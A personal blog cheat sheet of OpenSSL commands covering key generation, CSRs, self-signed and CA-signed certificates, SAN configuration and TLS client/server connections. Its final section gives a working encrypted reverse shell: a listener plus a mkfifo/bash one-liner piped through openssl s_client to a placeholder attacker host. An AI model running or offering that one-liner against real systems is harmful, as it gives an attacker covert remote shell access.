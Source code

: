 ```yaml
---
layout: post
title: Openssl Pro Tips
date: 2021-01-27 16:24 -0400
categories: [Cheat Sheet]
tags: [openssl, tls, ssl, cheat sheet]
---
```


OpenSSL is one of those applications that I use so often, but *rarely* do I ever recall what I'm supposed to do from memory. I'm always looking it up or eventually copying down some of the more frequent uses I have with it in my OneNote document. So here it is on my site, some quick one-off commands with OpenSSL.

## Generate a Server Key

To generate a server key (used in AES/RSA), use the following commands, and keep this key secure!

```terminal
$ openssl genrsa -out mykey.key 2048
```

I've heard that while a 4096-bit key is significantly more secure, it is also more CPU intensive to decrypt, so while dealing with TLS certificates the general consensus is to use 2048 since it is "good enough" to the point where computational power these days can't feasibly brute force the key in a reasonable amount of time, and it doesn't slow down the connection time for the client like 4096-bits would. But still, YMMV.

Now keep it secure:

```terminal
$ chmod 600 mykey.key
```

## Generate a Certificate Sign Request

To get an official certificate, you need to generate a CSR which is to be signed by the trusted third party. Usually you pay a company to do this. You can do it yourself, but you're basically telling everyone that you're super trustworthy and no one should ever doubt you. And come on, you remember that time in Tijuana, don't you? We do.

```terminal
$ openssl req -new -key mykey.key -out mycert.csr
```

You'll then be prompted for a bunch of metadata about the certificate. Make sure you don't put anything too damning in the file and you'll be alright. You should also use a challenge password as well I guess, but that's up to you.

## Self-signing a CSR without a pre-existing key

You should never do this in any sort of production environment. It trains users to accept fraudulent certificates generated by just about anybody, but sometimes you need to have some sort of cert there so *at least data isn't transmitted in the clear*, so here's how to sign a CSR. **NOTE**: This creates the key AND the signed certificate.

```terminal
$ openssl req -newkey rsa:2048 -nodes -keyout mydomain.key -x509 -days 365 -out mydomain.crt
```
This will prompt you for all the metadata about the certificate as mentioned in generating a CSR.

## Self-signing a CSR WITH a pre-existing key

To do the above with a key that you've already generated, use the following command:

```terminal
$ openssl req -key mykey.key -new -x509 -days 365 -out mycert.crt
```

## Sign a Certificate Sign Request with a global CA key

If you have the global CA key and want to legitimately sign a CSR, you can use this command:

```terminal
$ openssl x509 -req -in mycert.csr -CA ca.cert.pem -CAkey ca.key.pem -CAcreateserial -out mycert.crt -days 365 -sha512
```

## View the metadata of a Certificate or CSR

You can view the metadata of a certificate or CSR (such as the expiration date of the certificate or anything else about it) with the following:

```terminal
$ openssl x509 -in mycert.crt -noout -text
```

Additionally, for a CSR you can use:

```terminal
$ openssl req -text -noout -verify -in mycert.csr
```

## Create a CSR with Subject Altnernate Names

This requires a little more work, and hopefully there's a better one-liner way to do it, but until I found that out, the first thing you should do is create a file called `san.cnf`:

```ini
[req]
distinguished_name = req_distinguished_name
req_extensions = v3_req
prompt = no
[req_distinguished_name]
C = US
ST = California
L = Sacremento
O = Widgets, Inc
OU = Accounting
CN = widgets.example.com
[v3_req]
keyUsage = keyEncipherment, dataEncipherment
extendedKeyUsage = serverAuth
subjectAltName = @alt_names
[alt_names]
DNS.1 = morewidgets.example.com
DNS.2 = evenmorewidgets.example.com
DNS.3 = toomanywidgets.example.com
```

Obviously fill out the above with more appropriate data to your needs, then run the following to generate both the private key and the CSR file:

```terminal
$ openssl req -out widgets.csr -newkey rsa:2048 -nodes -keyout private.key -config san.cnf
```

Don't forget to `chmod 600 private.key` afterwards!

## Create a CSR with a SAN without Generating a Key

Slightly different than the above.

```terminal
$ openssl req -out widgets.csr -new -key private.key -config san.cnf
```

---

## Connect to TLS-encrypted Service

Is a service listening on some port that's encrypted but you want to send raw data to it? You can use OpenSSL's client application to connect to it as you would using netcat or telnet, only it handles the encryption overhead so you can communicate with the server on a raw level!

```terminal
$ openssl s_client -connect <RHOST>:<RPORT>
```

Upon connecting, you should see the TLS overhead of the handshake stuff until ultimately the connection is finally made. You can suppress that with the `-quiet` flag.

## Create TLS-encrypted listener

Similarly, you can start a listener that is encrypted using openssl as well:

```terminal
$ openssl s_server -key mykey.key -cert mycert.crt -port 9090
```
You can add the `-quiet` flag here as well.

## OpenSSL-based reverse shell

For the crafty hacker, you can encrypt the shell across the wire using openssl as well.

1. First, generate the key on your local box:
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
# hit enter for default until key is generated
```

2. Then, start the listener:
```terminal
$ openssl s_server -quiet -key key.pem -cert cert.pem -port 9090
```

3. Now on the remote server, execute the following:
```terminal
$ mkfifo /tmp/a; /bin/bash -I 2>&1 </tmp/a | openssl s_client -quiet -connect <LHOST>:9090 >/tmp/a;rm /tmp/a
```

OpenSSL is really handy to know!